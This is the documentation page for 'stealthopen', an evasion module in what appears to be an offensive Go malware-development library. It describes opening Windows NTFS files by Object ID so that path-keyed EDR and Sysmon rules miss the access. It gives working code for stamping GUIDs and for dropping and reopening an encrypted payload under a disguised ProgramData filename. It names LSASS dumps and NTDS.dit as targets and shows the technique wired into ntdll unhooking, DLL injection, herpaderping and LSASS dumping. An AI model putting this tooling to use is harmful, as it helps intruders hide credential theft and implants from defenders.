

---
---

# StealthOpen — NTFS Object ID File Access

[<- Back to Evasion](README.md)

**MITRE ATT&CK:** [T1036 - Masquerading](https://attack.mitre.org/techniques/T1036/)
**Package:** `evasion/stealthopen`
**Platform:** Windows (NTFS only)
**Detection:** Low

---

## TL;DR

You want to read a file (LSASS dump, NTDS.dit, decoy config)
without any defender's path-keyed filter noticing. Sysmon
FileCreate rules, EDR minifilters, AV path matchers — they all
key on "what path did this process open?" If you open the file
by its 128-bit NTFS Object ID instead of its path, those rules
have nothing to match on.

The flow is two phases:

| Phase | What you do | When |
|---|---|---|
| **Stamp** | [`GetObjectID(path)`](#stamp--getobjectidpath-string-byte-error) reads or assigns the file's Object ID. [`SetObjectID(path, guid)`](#set--setobjectidpath-string-id-byte-error) installs a caller-chosen GUID. | Once. On the build host, or by a stager process willing to touch the path one time. |
| **Open path-free** | [`OpenByID(volume, guid)`](#open--openbyidvolume-string-id-byte-osfile-error) opens the file via the volume root, no path. | Every subsequent access. |

What this DOES achieve:

- Path-keyed Sysmon / EDR / AV filters don't trigger — the
  open request the kernel sees has no path string.
- Pre-shared GUID lets a stager and second-stage agree on a
  file without either side carrying its path as a string.

What this does NOT achieve:

- **Minifilters that resolve back to a path** still see the
  real file (`FltGetFileNameInformation` answers based on the
  resolved `FILE_OBJECT`, not the open request). Mature EDRs
  do this — defeat name-keyed filters, not signed-callback
  data.
- **NTFS only** — no FAT, no exFAT, no ReFS without Object ID
  support. Most user data lives on NTFS, but USB drives and
  network shares are a coin flip.
- **The stamp is persistent** — the Object ID lives in the
  MFT until the file is deleted. Defenders running
  `fsutil objectid query <path>` see the GUID. If you want
  truly invisible, use a freshly-stamped file you control.

---

## Primer — vocabulary

Five terms recur on this page:

> **NTFS Object ID** — a 128-bit GUID NTFS optionally attaches
> to a file via the `$OBJECT_ID` MFT attribute. Either lazily
> assigned by `FSCTL_CREATE_OR_GET_OBJECT_ID` (random GUID) or
> caller-chosen via `FSCTL_SET_OBJECT_ID`. The file is then
> reachable by GUID alone, no path needed.
>
> **MFT (Master File Table)** — NTFS's central index. Every
> file has one MFT record holding its metadata (timestamps,
> attributes, data runs). Object IDs live as one of those
> attributes.
>
> **FSCTL (File System Control)** — a control code passed via
> `DeviceIoControl` to talk directly to a filesystem driver.
> `FSCTL_CREATE_OR_GET_OBJECT_ID` and `FSCTL_SET_OBJECT_ID`
> are the two this technique uses.
>
> **OpenFileById** — Win32 API that opens a file by `FILE_ID`
> (16 bytes for Object ID type, 8 bytes for FRN type). Takes a
> *volume handle* + the ID — no path argument exists in the
> call signature, so no path string can be logged.
>
> **Minifilter** — a kernel-mode filter driver (Sysmon's
> `SysmonDrv`, EDR agents) that intercepts `IRP_MJ_CREATE` and
> friends. Some key on the path field of the IRP (defeated
> here); some resolve `FILE_OBJECT` back to a path after the
> open succeeds (still see you).

---

## How It Works



**Key points:**
- `FSCTL_CREATE_OR_GET_OBJECT_ID` lazily assigns an Object ID if the file has
  none; `FSCTL_SET_OBJECT_ID` installs a caller-chosen GUID (useful for
  pre-shared identifiers between implant and operator).
- `OpenFileById` with `FILE_ID_TYPE = ObjectIdType` requires a volume handle,
  not a path — the kernel dispatches straight to the MFT.
- Minifilters that resolve `FILE_OBJECT` back to a path via
  `FltGetFileNameInformation` **do** still see the real file — this technique
  defeats name-keyed filters, not every defensive mechanism.

---

## Usage

```go
import "github.com/oioio-space/maldev/evasion/stealthopen"

// One-time: stamp the sensitive file so we can recall its GUID later.
id, err := stealthopen.GetObjectID(`C:\sensitive.bin`)
if err != nil {
    log.Fatal(err)
}

// Later — without ever mentioning the path:
f, err := stealthopen.OpenByID(`C:\`, id)
if err != nil {
    log.Fatal(err)
}
defer f.Close()

io.Copy(os.Stdout, f)
```

**Installing a known GUID** (pre-shared between stager and second stage):

```go
well := [16]byte{0xDE, 0xAD, 0xBE, 0xEF, /* ... */}
_ = stealthopen.SetObjectID(`C:\ProgramData\tmp.cfg`, well)

// Second stage knows the GUID by constant — no path string on either side.
f, _ := stealthopen.OpenByID(`C:\`, well)
```

---

## Combined Example

Drop an encrypted payload, stamp it with a fixed Object ID, then delete all
path traces from the implant so a later call opens the same bytes without any
filename string ever appearing in the implant image or in the kernel open
request.

```go
package main

import (
    "io"
    "os"

    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion/stealthopen"
)

// Baked-in GUID — the only reference the second stage needs.
var payloadID = [16]byte{
    0x11, 0x22, 0x33, 0x44, 0x55, 0x66, 0x77, 0x88,
    0x99, 0xaa, 0xbb, 0xcc, 0xdd, 0xee, 0xff, 0x00,
}

func drop(key, plaintext []byte) error {
    const tmp = `C:\ProgramData\Intel\update.bin`
    blob, _ := crypto.EncryptAESGCM(key, plaintext)
    if err := os.WriteFile(tmp, blob, 0o644); err != nil {
        return err
    }
    return stealthopen.SetObjectID(tmp, payloadID)
}

func reopen(key []byte) ([]byte, error) {
    f, err := stealthopen.OpenByID(`C:\`, payloadID)
    if err != nil {
        return nil, err
    }
    defer f.Close()
    blob, err := io.ReadAll(f) // read via the path-free handle
    if err != nil {
        return nil, err
    }
    return crypto.DecryptAESGCM(key, blob)
}
```

The implant binary never contains the string `update.bin` nor a hard-coded
path — only the 16-byte GUID. Any EDR matching on `*.bin` under
`C:\ProgramData` misses the reopen.

---

## Composing with Other Packages — the `Opener` Pattern

Reading a sensitive file directly (low-level `OpenByID` call) is fine for
one-off access. For the packages inside maldev that **themselves** open
sensitive files (unhook reading ntdll, phantomdll reading System32 DLLs,
herpaderping reading the payload), stealthopen exposes an `Opener`
abstraction that mirrors how `*wsyscall.Caller` is passed through the
code: an optional, nil-safe handle that consuming packages accept as a
plain parameter.

```go
type Opener interface {
    Open(path string) (*os.File, error)
}

// Standard: plain os.Open. Default when the caller passes nil.
type Standard struct{}

// MultiStealth (recommended default): per-path lazy ObjectID capture
// + cache. The path-based hook fires once per unique path; every
// subsequent open of the same path routes through OpenByID. Zero
// value works.
type MultiStealth struct{ /* unexported cache + mutex */ }

// Stealth: pre-bound to one file, captured at construction. Use when
// you know the target up front and want zero per-call overhead — Open
// ignores its path argument.
type Stealth struct {
    VolumePath string
    ObjectID   [16]byte
}

// NewStealth derives both fields from a real path in one call.
func NewStealth(path string) (*Stealth, error)

// Use normalizes the nil case to Standard.
func Use(opener Opener) Opener
```

### When to pick which

| Situation | Pick |
|---|---|
| You don't know which files the consumer opens | `&MultiStealth{}` |
| You know the single target file and want zero overhead | `NewStealth(path)` |
| You want plain path-based opens (the default) | `nil` (or `&Standard{}`) |

### The pattern in practice — recommended (MultiStealth)

```go
import (
    "github.com/oioio-space/maldev/evasion/stealthopen"
    "github.com/oioio-space/maldev/evasion/unhook"
)

// Zero-config: any file the consumer opens is captured + cached
// transparently. The first open of each unique path pays one
// path-based hook event; every subsequent open of the same path
// routes through OpenByID and never re-touches the hook.
opener := &stealthopen.MultiStealth{}

_ = unhook.ClassicUnhook("NtCreateSection", caller, opener)
_ = unhook.FullUnhook(caller, opener)
// You don't have to know that unhook reads ntdll.dll repeatedly.
```

### The pattern in practice — pre-bound (Stealth)

```go
sysDir, _ := windows.GetSystemDirectory()
ntdllPath := filepath.Join(sysDir, "ntdll.dll")

// One-time: capture ntdll's Object ID + volume root.
stealth, err := stealthopen.NewStealth(ntdllPath)
if err != nil { /* non-NTFS, or no ObjectID — fall back to nil */ }

// Same wiring; this variant skips the per-call cache lookup.
_ = unhook.ClassicUnhook("NtCreateSection", caller, stealth)
_ = unhook.FullUnhook(caller, stealth)
```

### Where it's wired today

| Consumer | Function / Config field | What gets stealth-opened |
|---|---|---|
| `evasion/unhook.ClassicUnhook` | 3rd arg | `System32\ntdll.dll` |
| `evasion/unhook.FullUnhook` | 2nd arg | `System32\ntdll.dll` |
| `inject.PhantomDLLInject` | 4th arg | `System32\<dllName>` (read **and** the HANDLE passed to `NtCreateSection`) |
| `process/tamper/herpaderping.Config.Opener` | struct field | `PayloadPath` + `DecoyPath` |

All four treat nil as "use the existing path-based open" — no behavior
change for existing callers. Tests in `evasion/stealthopen/opener_test.go`,
`evasion/stealthopen/opener_windows_test.go`, `evasion/unhook/opener_windows_test.go`,
`inject/phantomdll_opener_test.go`, and `process/tamper/herpaderping/opener_windows_test.go`
pin the contract (spy-opener call-counting + real end-to-end round-trip
through OpenFileById).

### Limitations to remember

- **NTFS only.** ReFS / FAT32 / UNC shares without NTFS expose no Object ID.
  Detect by checking `NewStealth`'s error.
- **Object ID must preexist** on the target file. System32 DLLs generally
  do have one; fresh payloads may need `GetObjectID` (creates on demand,
  often works without admin) or `SetObjectID` (admin, lets you pin a
  fixed GUID).
- **Volume root required.** `VolumeFromPath` extracts it from drive-letter,
  Win32-prefixed, and UNC paths — but a `\\?\Volume{GUID}\` root needs
  `GetVolumePathName` under the hood; the helper does that for you.
- **Not a magic bullet.** Minifilters that resolve the final `FILE_OBJECT`
  to a path **after** the open still see the real path. This beats
  name-keyed pre-open filters, not every defensive mechanism.

---

## API Reference

Package: `github.com/oioio-space/maldev/evasion/stealthopen`. Two
parallel seams — `Opener` for read paths, `Creator` for write paths.
Each has a `Standard` implementation (plain `os.Open`/`os.Create`)
and a `Stealth` implementation (NTFS-Object-ID-based open, bypasses
path-based EDR file hooks). Helper functions `OpenRead` /
`WriteAll` short-circuit common one-shot use cases.

### Read seam

#### `type Opener interface { Open(path string) (*os.File, error) }`

The seam consumed by every package that needs to read from disk
under operator-controlled strategy: `cleanup/wipe`,
`evasion/unhook`, `credentials/lsassdump.DumpToFileVia`'s read side
(via the consumer's `Opener`), `persistence/lnk` (P2.16).

**Side effects:** implementation-defined.

**OPSEC:** the whole point — pass a `Stealth` opener to bypass
`CreateFile`-on-path EDR hooks for the consumer's read path,
without changing the consumer's signature.

**Required privileges:** as the target file.

**Platform:** cross-platform interface (Windows-only `Stealth`
implementation).

#### `type Standard struct{}` + `(*Standard).Open(path string) (*os.File, error)`

Plain `os.Open` wrapper. Default when `Use(nil)` is called.

**Returns:** `*os.File` from the standard library.

**Side effects:** opens a file handle the standard library way.

**OPSEC:** standard `CreateFile(path, …)` — fully visible to EDR
file-system minifilters.

**Required privileges:** read on `path`.

**Platform:** cross-platform.

#### `stealthopen.Use(opener Opener) Opener`

Helper that returns `opener` if non-nil, else a `*Standard`. Use at
package boundaries so consumers can accept `nil` for "default behaviour"
without writing the same nil-check at each call site.

**Returns:** the resolved `Opener` (never nil).

**Side effects:** none.

**Platform:** cross-platform.

#### `stealthopen.OpenRead(opener Opener, path string) ([]byte, error)`

`opener.Open(path)` then `io.ReadAll` then `Close`. One-shot read.

**Parameters:** `opener` (nil falls through `Use` to `Standard`),
`path` to read.

**Returns:** file bytes; first error from open / read.

**Side effects:** loads the entire file into memory. Use the raw
`Opener.Open` path for streaming.

**OPSEC:** as the chosen `Opener`.

**Required privileges:** read on `path`.

**Platform:** cross-platform.

#### `type MultiStealth struct{...}` + `(*MultiStealth).Open(path string) (*os.File, error)`

Recommended drop-in [Opener] for callers that don't know the consumer's
file list ahead of time. Per-path lazy ObjectID capture + cache: the
first `Open(path)` for a given path delegates to `NewStealth(path)` and
remembers the resulting `*Stealth`; every subsequent `Open(path)` for
the same path routes through `OpenByID` and never re-touches a
path-based file hook for that path. Negative cache: when capture fails
(non-NTFS, missing file, FSCTL denied) the path is remembered as "fall
back to `os.Open`" so the failure isn't retried.

**Parameters:** `path` to open; cache key is the absolute path so two
different relative spellings resolve to the same slot.

**Returns:** `*os.File` (caller closes); first error from open.
Capture errors are intentionally swallowed — callers that need them
surfaced should use `*Stealth` directly.

**Side effects:** first call per unique path issues
`FSCTL_CREATE_OR_GET_OBJECT_ID` (one path-based open). Subsequent calls
are ObjectID-only. Cache grows monotonically — N entries for N unique
paths.

**OPSEC:** equivalent to `*Stealth` after the first call per path. The
first call's path-based open is identical to `*Standard`'s
visibility — same hook event, same telemetry.

**Required privileges:** as `*Stealth` (read + ObjectID FSCTL on the
path being captured).

**Platform:** Windows + NTFS. Stub on non-Windows degrades silently to
`os.Open` so cross-platform implants can wire `&MultiStealth{}` into
any `Opener` slot without conditional logic.

**Concurrency:** safe for concurrent use. Two simultaneous first-calls
for the same path may both call `NewStealth`; the second resolver to
acquire the cache mutex defers to the first's entry. Per-key
single-flight is not implemented (negligible cost in the typical
"a few unique paths, called many times" workload).

#### `type Stealth struct{...}` + `(*Stealth).Open(path string) (*os.File, error)` + `stealthopen.NewStealth(path string) (*Stealth, error)`

NTFS-Object-ID-based opener. `NewStealth(path)` reads the on-disk
file's ObjectID via `FSCTL_GET_OBJECT_ID` (or assigns a fresh one
via `FSCTL_CREATE_OR_GET_OBJECT_ID`), caches it, and returns a
`*Stealth` whose `Open` ignores the path argument and opens the
file by `OBJECT_ID_BUFFER` instead. Path-based EDR hooks miss the
open entirely.

**Parameters:** `path` to register; the returned `*Stealth.Open`
ignores its `path` argument (kept for `Opener` interface
compatibility).

**Returns:** `*Stealth`; error from the FSCTL or path validation.

**Side effects:** if no ObjectID is present, one is created and
persists on the file (NTFS attribute, not visible in dir listings).

**OPSEC:** the FSCTL is rare in benign code — first-use of
`NewStealth` is detectable. Subsequent `Open` calls are
ID-based and bypass path hooks. Persistence of the ObjectID is a
forensic artifact (see `OBJECT_ID` carved from `$Extend\$ObjId`).

**Required privileges:** read + `FSCTL_GET_OBJECT_ID` access on
`path` — typically requires write access on the volume's `$Extend`
namespace, which means admin in practice.

**Platform:** Windows + NTFS. Stub returns "not implemented".

#### `stealthopen.VolumeFromPath(path string) (string, error)`

Returns the volume root (e.g., `\\?\Volume{GUID}\`) for `path`.
Used internally by `NewStealth` and exported for callers building
their own object-ID flows.

**Parameters:** `path` any file-system path.

**Returns:** volume root string; error if `path` is not on a
mounted volume.

**Side effects:** one `GetVolumePathName` + `GetVolumeNameForVolumeMountPoint` call.

**OPSEC:** silent (mountpoint enumeration is benign).

**Required privileges:** none.

**Platform:** Windows.

#### `stealthopen.GetObjectID(path string) ([16]byte, error)` / `SetObjectID(path string, id [16]byte) error` / `OpenByID(volumeRoot string, id [16]byte) (*os.File, error)`

Lower-level NTFS Object ID primitives — same code path Stealth uses
but exposed for callers building their own opener flows.

**Returns:** GUID-style 16-byte object ID; error from FSCTL.

**Side effects:** `SetObjectID` persists the ID on the file (NTFS
attribute). `OpenByID` opens by ID, bypassing path lookup.

**OPSEC:** as `Stealth.Open`.

**Required privileges:** as `Stealth.Open`.

**Platform:** Windows + NTFS.

### Write seam

#### `type Creator interface { Create(path string) (io.WriteCloser, error) }`

Symmetric to `Opener` for write paths. Consumed by
`credentials/lsassdump.DumpToFileVia` and `persistence/lnk` (P2.16).

**Platform:** cross-platform interface.

#### `type StandardCreator struct{}` + `(*StandardCreator).Create(path string) (io.WriteCloser, error)`

Plain `os.Create` wrapper. Default when `UseCreator(nil)` is called.

**Returns:** `*os.File` (which implements `io.WriteCloser`).

**Side effects:** creates / truncates the file at `path`.

**OPSEC:** standard `CreateFile(path, GENERIC_WRITE)` — fully
visible to EDR.

**Required privileges:** write on the parent directory.

**Platform:** cross-platform.

#### `stealthopen.UseCreator(creator Creator) Creator`

Same nil-default helper as `Use`, for the write seam.

**Returns:** the resolved `Creator` (never nil).

**Side effects / OPSEC / Required privileges / Platform:** N/A.

#### `stealthopen.WriteAll(creator Creator, path string, data []byte) error`

`creator.Create(path)` then `Write(data)` then `Close`. One-shot
write convenience.

**Parameters:** `creator` (nil falls through `UseCreator` to
`StandardCreator`); `path` destination; `data` bytes to write.

**Returns:** first error from create / write / close.

**Side effects:** as the chosen `Creator`.

**OPSEC:** as the chosen `Creator`.

**Required privileges:** as `StandardCreator`.

**Platform:** cross-platform.

## See also

- [Evasion area README](README.md)
- [`cleanup/ads`](../cleanup/ads.md) — companion NTFS-Object-ID-aware ADS primitive
- [`persistence/lnk`](../persistence/lnk.md) — backlog P2.16 wires LNK creation through stealthopen for fileless drop
